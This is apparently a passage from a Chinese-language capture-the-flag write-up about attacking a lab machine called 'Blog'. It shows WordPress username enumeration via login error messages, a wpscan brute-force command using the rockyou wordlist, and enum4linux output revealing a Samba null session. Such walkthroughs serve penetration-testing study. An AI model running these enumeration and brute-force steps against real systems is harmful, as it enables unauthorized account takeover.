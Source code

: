 在登录框验证，正确的用户名会返回：
```ERROR: The password you entered for the username bjoel is incorrect```
错误的用户名会返回：
```ERROR: Invalid username```

经验证，```bjoel```和```kwheel```是真实存在的用户名。

#尝试爆破bjoel的wp账号,好像爆不出来

wpscan --url http://10.10.122.108 --usernames bjoel --passwords /usr/share/wordlists/rockyou.txt 


#尝试渗透445端口samba服务
```
enum4linux 10.10.122.108                                                                                                                                                                                                           255 ⨯
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Sep 17 06:31:36 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.122.108
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.122.108    |
 ==================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ============================================ 
|    Nbtstat Information for 10.10.122.108    |
 ============================================ 
Looking up status of 10.10.122.108
        BLOG            <00> -         B <ACTIVE>  Workstation Service
        BLOG            <03> -         B <ACTIVE>  Messenger Service
        BLOG            <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ===================================== 
|    Session Check on 10.10.122.108    |
 ===================================== 
[+] Server 10.10.122.108 allows sessions using username '', password ''

